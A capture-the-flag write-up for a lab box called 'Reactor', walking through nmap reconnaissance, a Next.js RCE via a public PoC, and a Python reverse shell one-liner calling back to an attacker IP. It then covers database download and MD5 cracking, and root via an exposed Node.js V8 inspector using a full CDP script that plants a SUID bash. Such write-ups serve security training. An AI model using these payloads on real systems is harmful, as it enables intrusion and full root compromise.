




## Table of Contents
1. [Reconnaissance](#reconnaissance)
2. [Initial Access](#initial-access)
3. [Privilege Escalation to User (engineer)](#privilege-escalation-to-user-engineer)
4. [Privilege Escalation to Root](#privilege-escalation-to-root)

---

## Reconnaissance

I started with an Nmap scan to enumerate open ports and services.

```bash
$ sudo nmap -sC -sV -Pn -n <TARGET_IP>
```

**Results:**

| Port | State | Service | Version |
|------|-------|---------|---------|
| 22/tcp | open | ssh | OpenSSH 9.6p1 Ubuntu 3ubuntu13.16 |
| 3000/tcp | open | http | Next.js web application |

The Nmap scan revealed a Next.js application running on port 3000.

---

## Initial Access

<!--more-->

### Discovery

Browsing to `http://<TARGET_IP>:3000/` showed a Next.js web application.


Viewing the page source confirmed it was built with Next.js (evident from the `/_next/static/` paths and `X-Powered-By: Next.js` header).


### Exploitation — CVE-2025-66478

Given the Next.js framework, I searched for known Remote Code Execution (RCE) vulnerabilities and found **CVE-2025-66478**. I used the following public PoC:

- **PoC Repository:** [ssmvl2/Nextjs-RCE-Exploit](https://github.com/ssmvl2/Nextjs-RCE-Exploit)

#### Steps:

1. Clone the repository and install dependencies as per the README.
2. Run the exploit against the target:

```bash
$ python3 exploit.py -t http://<TARGET_IP>:3000/
```

This opened an interactive shell on the target, running as the `node` user.

### Upgrading to a Proper Reverse Shell

The interactive shell was limited — commands like `nc`, `python`, and `bash` reverse shells failed. However, `python3` was available on the system.

1. Start a listener on my local machine:

```bash
$ nc -lvnp 4444
```

2. Execute a Python3 reverse shell via the CVE shell:

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<ATTACKER_IP>",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/bash","-i"])'
```

This successfully spawned a reverse shell as `node`.

---

## Privilege Escalation to User (engineer)

### Enumeration

While enumerating the application directory (`/opt/reactor-app`), I found an SQLite database:

```bash
node@reactor:/opt/reactor-app$ ls
reactor.db
```

### Downloading the Database

I served the file via a temporary HTTP server and downloaded it locally:

**On the target:**

```bash
$ python3 -m http.server 8000
```

**On my machine:**

```bash
$ wget http://<TARGET_IP>:8000/reactor.db
```

### Analyzing the Database

I opened `reactor.db` in **DB Browser for SQLite** and found a `users` table containing password hashes for two accounts: `admin` and `engineer`.



The hashes appeared to be MD5. I copied both hashes to [CrackStation](https://crackstation.net/) for online cracking.

- **engineer** password: **Successfully cracked**
- **admin** password: **Not cracked**



### SSH as engineer

Using the cracked password, I logged in via SSH:

```bash
$ ssh engineer@<TARGET_IP>
```

```
 ____  _____    _    ____ _____ ___  ____  
|  _ \| ____|  / \ / ___|_   _/ _ \|  _ \ 
| |_) |  _|   / _ \| |     | || | | | |_) |
|  _ <| |___ / ___ \ |___  | || |_| |  _ < 
|_| \_\_____/_/   \_\____| |_| \___/|_| \_\

    ReactorWatch Core Monitoring System
    Nuclear Dynamics Corp. - Site 7

    AUTHORIZED PERSONNEL ONLY
```

### First Flag (user.txt)

```bash
engineer@reactor:~$ ls
user.txt
engineer@reactor:~$ cat user.txt
a43aada481beb0942d24279edbb42ae3
```

---

## Privilege Escalation to Root

### Enumeration as engineer

After gaining SSH access as `engineer`, I ran `linenum.sh` to enumerate the system for privilege escalation vectors. Key findings from the enumeration output:

**System Info:**
- Ubuntu 24.04.4 LTS (Noble Numbat)
- Kernel: 6.8.0-117-generic

**Listening Ports (from linenum output):**
```
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:9229          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:8000            0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
tcp6       0      0 :::3000                 :::*                    LISTEN      -                   
```

**Key Finding:** Port **9229** is listening on `127.0.0.1` — this is the **Node.js V8 Inspector** (debugging) port.

**Running Processes (from linenum):**
```
root        1357  0.0  1.2 1066976 47988 ?       Ssl  Jul08   0:03 /usr/bin/node --inspect=127.0.0.1:9229 /opt/uptime-monitor/worker.js
```

A **root-owned** Node.js process is running with the `--inspect` flag, exposing the V8 debugger on localhost. This is a critical finding — any client that connects to this debugger can execute JavaScript with **root privileges**.

I confirmed the debugger is accessible by querying it locally:

```bash
engineer@reactor:~$ curl http://127.0.0.1:9229/json
[ {
  "description": "node.js instance",
  "devtoolsFrontendUrl": "devtools://devtools/bundled/js_app.html?experiments=true&v8only=true&ws=127.0.0.1:9229/69af7d20-e764-45af-93d0-85090a9f1ca4",
  "id": "69af7d20-e764-45af-93d0-85090a9f1ca4",
  "title": "/opt/uptime-monitor/worker.js",
  "type": "node",
  "url": "file:///opt/uptime-monitor/worker.js",
  "webSocketDebuggerUrl": "ws://127.0.0.1:9229/69af7d20-e764-45af-93d0-85090a9f1ca4"
} ]
```

### Exploitation — Node.js V8 Inspector Abuse

The V8 Inspector is only accessible from localhost. To exploit it, I need to forward this port to my attack machine using an **SSH tunnel**.

#### Step 1: SSH Port Forwarding

From my attack machine, I set up a local port forward to bring the remote debug port to my local environment:

```bash
$ ssh -L 9229:127.0.0.1:9229 engineer@<TARGET_IP>
```

This maps `localhost:9229` on my machine to `127.0.0.1:9229` on the target.

#### Step 2: Create the Exploit Script

I used the `chrome-remote-interface` library to connect to the V8 debugger and execute arbitrary JavaScript with root privileges.

**Environment setup:**

```bash
$ mkdir reactor-exploit && cd reactor-exploit
$ npm install chrome-remote-interface
```

**Exploit script (`privEsc.js`):**

```javascript
const CDP = require('chrome-remote-interface');

async function pwn() {
    let client;
    try {
        // Connect to the forwarded V8 Inspector port
        client = await CDP({ port: 9229 });
        const { Runtime } = client;

        // Payload: copy bash to /tmp and set SUID bit
        const codeToExecute = `
            (() => {
                try {
                    const proc = typeof process !== 'undefined' ? process : global.process;
                    if (!proc) return 'Error: process object is unavailable';

                    const req = proc.mainModule ? proc.mainModule.require : module.require;
                    const cp = req('child_process');

                    cp.execSync('cp /bin/bash /tmp/rootbash && chmod +s /tmp/rootbash');
                    return 'SUID shell created successfully at /tmp/rootbash';

                } catch (err) {
                    return 'Payload Error: ' + err.message;
                }
            })()
        `;

        const response = await Runtime.evaluate({ 
            expression: codeToExecute, 
            returnByValue: true 
        });

        if (response.exceptionDetails) {
            console.error('Debugger Error:', response.exceptionDetails.exception.description);
        } else {
            console.log('\n--- Remote Execution Result ---');
            console.log(response.result.value);
            console.log('--------------------------------\n');
        }

    } catch (err) {
        console.error('Connection Error:', err.message);
    } finally {
        if (client) { 
            await client.close(); 
        }
    }
}

pwn();
```

#### Step 3: Execute the Exploit

With the SSH tunnel active in another terminal, I ran the exploit script:

```bash
$ node privEsc.js
```

**Output:**

```
--- Remote Execution Result ---
SUID shell created successfully at /tmp/rootbash
--------------------------------
```

The root-owned Node process executed our payload, creating a SUID copy of `/bin/bash` at `/tmp/rootbash`.

#### Step 4: Spawn the Root Shell

Back on the target SSH session, I executed the SUID binary with the `-p` flag (preserve privileges) to maintain root access:

```bash
engineer@reactor:~$ /tmp/rootbash -p
rootbash-5.2# whoami
root
```

### Root Flag

```bash
rootbash-5.2# cat /root/root.txt
[ROOT_FLAG_REDACTED]
```

---

## Summary

| Step | Technique | Result |
|------|-----------|--------|
| Recon | Nmap scan | Found SSH (22) and Next.js (3000) |
| Initial Access | CVE-2025-66478 (Next.js RCE) | Shell as `node` user |
| User Escalation | SQLite database + password crack | SSH as `engineer` |
| Root Escalation | Node.js V8 Inspector abuse via SSH tunnel + CDP | Root shell |

---

*Writeup by Mikias*

